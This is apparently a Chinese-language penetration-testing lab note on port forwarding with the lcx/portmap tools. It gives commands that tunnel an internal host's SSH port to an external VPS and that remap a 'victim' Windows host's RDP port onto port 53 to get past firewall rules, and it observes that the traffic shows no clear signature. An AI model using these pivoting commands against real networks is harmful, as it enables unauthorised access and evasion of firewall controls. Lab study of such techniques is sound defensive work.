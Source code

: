 1.内网端口转发

```
实验：
环境
内网某主机（vmware-kali）
外网vps：139.155.2.117
准备工具http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip
vps首先开启监听：
./portmap -m 2 -p1 6666 -h2 139.155.2.117 -p2 7777

内网主机转发22端口到vps的6666端口上
./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 139.155.2.117 -p2 6666

然后在vps上连接ssh 127.0.0.1 -p 7777 或者ssh vps -p 7777

```

查看流量包，发现，看不出特征！有个gNb字段一直出现，但应该不是。。。

2.本地端口映射：将3389等转到53等可向外访问的端口上。

lcx.exe -tran 53 192.168.137.158 3389，将该主机的3389 映射到53端口上。

假设我的受害主机win10的3389不能被外访问，即不允许从外部来访问3389端口，但是53，或者其他常见的与公网交互的或者没有在防火墙黑名单中的，都可以尝试做端口映射，注意此处不允许复用端口。

![image-20210208212501355](../image/image-20210208212501355.png)
